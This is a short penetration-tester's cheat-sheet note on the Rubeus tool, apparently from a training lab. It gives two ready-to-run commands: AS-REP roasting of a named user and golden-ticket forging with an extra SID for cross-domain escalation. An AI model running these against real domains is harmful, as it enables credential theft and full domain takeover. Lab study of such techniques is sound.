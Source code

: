 # Rubeus

## Sources
- Github


[ASREP Roasting](../../env/active-directory/attacks/ASREP Roasting)
```powershell-session
Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

[[../../env/active-directory/attacks/ExtraSIDs (SIDHistory)]]

```powershell-session
Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```
